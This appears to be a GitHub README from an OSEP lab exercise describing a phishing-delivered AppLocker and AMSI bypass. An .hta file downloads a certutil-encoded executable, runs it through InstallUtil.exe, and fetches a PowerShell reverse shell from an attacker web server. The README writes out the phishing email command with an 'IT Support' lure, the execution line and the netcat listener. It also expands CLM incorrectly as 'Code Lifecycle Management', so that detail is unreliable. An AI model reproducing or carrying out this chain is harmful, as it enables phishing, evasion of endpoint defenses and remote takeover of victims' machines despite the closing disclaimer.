 # 🧠 OSEP CLM Bypass Project – PowerShell Runspace Loader (AppLocker Evasion)

This project demonstrates a stealthy AV/EDR evasion and **AppLocker bypass technique** by abusing `InstallUtil.exe` (a Microsoft LOLBin) and executing PowerShell payloads via .NET Runspaces. It was developed as part of an OSEP lab exercise to simulate a realistic phishing attack in an environment hardened against traditional payloads.

The core of this technique leverages the **CLM (Code Lifecycle Management) bypass**, which uses a C# executable with a custom `Uninstall()` method and a `[RunInstaller(true)]` attribute. This allows us to execute arbitrary code without ever touching `powershell.exe`, effectively **bypassing AppLocker and application whitelisting policies**.

---

## 🔧 Overview

The payload is a compiled C# executable (`bypassrunner.exe`) that:

- Uses `System.Management.Automation.dll` to load and execute PowerShell scripts in memory via Runspaces
- Executes its logic inside the `Uninstall()` method to abuse `InstallUtil.exe /U` behavior
- Avoids calling `powershell.exe` directly, increasing stealth and bypassing AppLocker
- Downloads and executes:
  - `amsi.txt`: a PowerShell AMSI bypass
  - `shell.ps1`: a reverse shell PowerShell payload

The entire execution chain is triggered from a `.hta` phishing file.

---

## 📁 Files and Execution Chain

1. **bypassrunner.exe**  
   The compiled C# executable with PowerShell runspace-based execution inside `Uninstall()`.

2. **payload.txt**  
   A base64-encoded version of the executable, created using:
   ```
   certutil -encode bypassrunner.exe payload.txt
   ```

3. **amsi.txt**  
   Contains an AMSI bypass to disable AMSI inspection at runtime.

4. **shell.ps1**  
   A PowerShell reverse shell script that connects back to the attacker's listener.

5. **pishing.hta**  
   An HTML Application file that:
   - Downloads `payload.txt`
   - Decodes it to `runner.exe`
   - Executes it using `InstallUtil.exe /U`

---

## 🛠 Compilation

The project is compiled using **Visual Studio**. To do so:

1. Create a new **Console Application (.NET Framework)** project.
2. Add references to:
   - `System.Configuration.Install`
   - `System.Management.Automation` from:
     ```
     C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
     ```
3. Replace `Program.cs` content with the payload code.
4. Build the project to produce `bypassrunner.exe`.

---

## 🚀 Execution Flow

1. Start a web server in the attacker machine:
   ```
   python3 -m http.server 80
   ```

2. Host the following files:
   - `payload.txt` (encoded binary)
   - `amsi.txt` (AMSI bypass)
   - `shell.ps1` (reverse shell)
   - `phishing.hta` (delivery vector)

3. Send the phishing email to the victim with the following command:
   ```
   sendEmail -s 192.168.1.160 -target@target.com -f attacker@attacker.com -u "Urgent: Please review this issue" -m "Hi Victim, We’ve detected an issue affecting mail delivery. Please review the report as soon as possible: http://192.168.1.130/phishing.hta Let us know if you have any trouble accessing it. Thanks, IT Support"
   ```

4. When executed, the `.hta`:
   - Downloads `payload.txt`
   - Decodes it with `certutil` to `runner.exe`
   - Executes it using:
     ```
     C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U %TEMP%\runner.exe
     ```

5. The EXE runs the PowerShell payload using Runspaces:
   - Loads and executes `amsi.txt`
   - Loads and executes `shell.ps1` in memory

6. The attacker receives a reverse shell connection on port 443:
   ```
   nc -lvnp 443
   ```

---

## 📌 Key Features

- Bypasses AppLocker using the CLM technique via `InstallUtil.exe`
- Fileless PowerShell execution using Runspaces
- Avoids traditional signatures and blocked binaries like `powershell.exe`
- Leverages trusted Microsoft LOLBins (`InstallUtil.exe`, `certutil.exe`)
- Suitable for environments with application whitelisting and antivirus protections

---

## ⚠ Disclaimer

This project is for **educational and authorized penetration testing only**. Do not use this method on systems for which you do not have explicit permission. Misuse may violate laws and result in consequences.
